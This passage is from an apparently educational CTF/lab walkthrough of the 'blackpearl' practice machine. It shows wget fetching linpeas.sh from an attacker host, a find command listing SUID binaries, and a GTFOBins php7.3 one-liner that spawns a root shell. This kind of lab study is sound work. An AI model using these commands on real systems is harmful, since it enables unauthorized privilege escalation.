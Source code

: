 Back in the shell:

```bash
pwd
/var/www/blackpearl.tcm/navigate
www-data@blackpearl:~/blackpearl.tcm/navigate$ cd /tmp
cd /tmp
www-data@blackpearl:/tmp$ wget http://10.0.2.4/linpeas.sh linpeas.sh
```

Press ENTER. Give the file execute permissions with `chmod +x linpeas/sh` and execute with `./linpeas.sh`.

Lots of information to go through. But what we are looking for this time is, this:

![linpeas_blackpearl](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/e0ec501e-a907-406b-a341-336f0292245a)

In nutshell, in the SUID persmission area. Whenever there's an `s` e.g `-rws`  , that means we can run whatever is tied to that permission as the user that owns it. So if we have a binary owned by root and it has the `s` permssion, we can run it as root.

We can use the find command to list out binaries with the SUID permission settings we are looking for in a much cleaner way.

 

```bash
www-data@blackpearl:/tmp$ find / -type f -perm -4000 2>/dev/null
find / -type f -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/php7.3
/usr/bin/su
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
```

[GTFOBins](https://gtfobins.github.io/) can provide us with ways to exploit certain binaries with specific permissions to gain root.

Access the website. Select `SUID`. We can start looking for binaries to exploit based on the list above. In this case, let’s look for php, select it and scroll down to SUID:

![SUID](https://github.com/w1zzl3-06/TCM-Practical-Ethical-Hacking-Notes/assets/141921425/ee0adc24-5c96-4ded-8f72-2b9ff9dceb24)

Copy the highlighted line and paste it into the shell. Make sure to include the location of the binary first. like so:

```bash
/usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"
```
